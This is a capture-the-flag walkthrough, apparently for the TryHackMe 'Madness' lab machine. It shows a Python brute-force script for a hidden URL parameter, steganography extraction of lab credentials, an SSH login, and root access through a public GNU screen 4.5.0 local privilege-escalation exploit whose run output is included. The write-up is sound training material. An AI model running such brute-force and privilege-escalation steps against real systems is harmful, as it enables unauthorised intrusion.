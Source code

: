 Let's start with a nmap scan. 

--nmap scan--

We got port 22 ssh open running on **ubuntu** and port 80 running apache web server. According to the nmap scan It is apache default web page. Let's see it's true.

--web page---

Let's run a dirb against the webpage. Untill that gives something let's try to view source code on our apache default web page. Is there anything we miss.

This is what I found in page source. 
---page source----

```js
 <div class="page_header floating_element">
        <img src="thm.jpg" class="floating_element"/>
<!-- They will never find me-->
        <span class="floating_element">
          Apache2 Ubuntu Default Page
        </span>
      </div>
```
We can go back to the web page and see It is existing there. 

--floting-image---

Let's grab that image to our machine (use 'wget http://10.10.17.235/thm.jpg'). First I try to look at it but we cannot error popup.

--error---

We kind a understand what is wrong here. Web title says it's a PNG file but our image is JPEG file. 

Let's change it. First I try to rename the extention dosen't work. when we look into the head of that file it says PNG this must be the issue. Let's use the **hexedit** to change this to true JPEG. (use hexedit thm.jpg to enter the editor)

Here is the documentation link I read before do the changes :
https://www.file-recovery.com/jpg-signature-format.htm

--hexedit--

* Before change this line : 89 50 4E 47  0D 0A 1A 0A  00 00 00 01
* After the change : FF D8 FF E0  00 10 4A 46  49 46 00 01

Let's press **ctrl+x** save and exit. let's open our image.

--thm---

Our dirb didn't found anything no wonder. Let's go into that **hidden directory**. 

We can see bunch of text. But we look into the page source we can see this. 

--page source 2---

It asking for **secret number**. We know It's in the 0-99. Let's try to run script to bruteforce this.

First we need to change the url like this :
http://10.10.17.235/th1s_1s_h1dd3n/?secret=1

Let's make our script with python.
```python
#! usr/bin/env python3
import requests

url ="http://10.10.17.235/th1s_1s_h1dd3n/?secret="

for i in range(0,100):
	response=requests.get(url+str(i))
	
	if("That is wrong!" in response.text):
		continue
	else:
		print("correct secret :",i)
		break
```
This will give your correct answer like this :
```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/Madness]
└──╼ $python3 bruteforce.py 
correct secret : 73
```
Let's see what's in 73.

--73 web--

Is this username? After sometime I figure it's not a username. I look into that thm.jpg ours. Guess what I found in there.

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/Madness]
└──╼ $steghide --info thm.jpg 
"thm.jpg":
  format: jpeg
  capacity: 1.0 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "hidden.txt":
    size: 101.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
That's not a username it was the passphrase. Let's extract that **hidden.txt** file. Use this to extract that file.

* Passphrase: y2RPJ4QaPF!B

```bash
steghide --extract -sf thm.jpg
```
In that hidden.txt file :
```
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```
Still I don't think that mad bastard give the username. In the hints they said **There's something ROTten about this guys name!** we can try to decrypt this with ROT13. 

Here is the decrypter link : https://rot13.com/
--rot13--

Great!! We get the username as a joker no doubt on that.

I tried to connect as joker with the password, but no luck. I also tried to ROT13 the password, no luck either…

I’ll be honest, I was about to stop here and ask this about one of my friends. I found that the password is located in the picture of this room. Seriously, who would expect that? Anyway, let’s take this as a hint.

In this image:
--5i---

**Use steghide (with empty key) to reveal the password**
```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/Madness]
└──╼ $steghide info 5iW7kC8.jpg 
"5iW7kC8.jpg":
  format: jpeg
  capacity: 6.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "password.txt":
    size: 83.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
Let's extract that *password.txt*. Use following command to extract that file.

```bash
steghide extract -sf 5iW7kC8.jpg 
```
In the **password.txt** file:

``` 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```
Finally !! Let's connect to the ssh with this. 

* username: joker
* password: *axA&GF8dP

## User flag 
User flag in joker's home directory.
```bash
joker@ubuntu:~$ ls -la
total 20
drwxr-xr-x 3 joker joker 4096 Jun 10 07:15 .
drwxr-xr-x 3 root  root  4096 Jan  4  2020 ..
-rw------- 1 joker joker    0 Jan  5  2020 .bash_history
-rw-r--r-- 1 joker joker 3771 Jan  4  2020 .bashrc
drwx------ 2 joker joker 4096 Jun 10 07:15 .cache
-rw-r--r-- 1 root  root    38 Jan  6  2020 user.txt
joker@ubuntu:~$ cat user.txt 
THM{d5781**********************}
```
## Root flag
Looks like we can't run sudo here. 
```bash
joker@ubuntu:~$ sudo -l
[sudo] password for joker: 
Sorry, user joker may not run sudo on ubuntu.
```
Let's run linpeas in this machine.  

---linpeas----

Let’s find a way to leverage a root privilege with screen version 4.5.0 .After searching it in exploitdb I find the Local Privilege Escalation.

https://www.exploit-db.com/exploits/41154

Let's Download the exploit, transfer it to the target through python server into the directory /dev/shm and execute it.

It gives me a bunch of errors but it do our work.
```bash
joker@ubuntu:/dev/shm$ chmod +x screen-exploit.sh 
joker@ubuntu:/dev/shm$ ./screen-exploit.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

# whoami
root
# cd /root
# ls
root.txt
# cat root.txt	
THM{5ecd9*************************}
```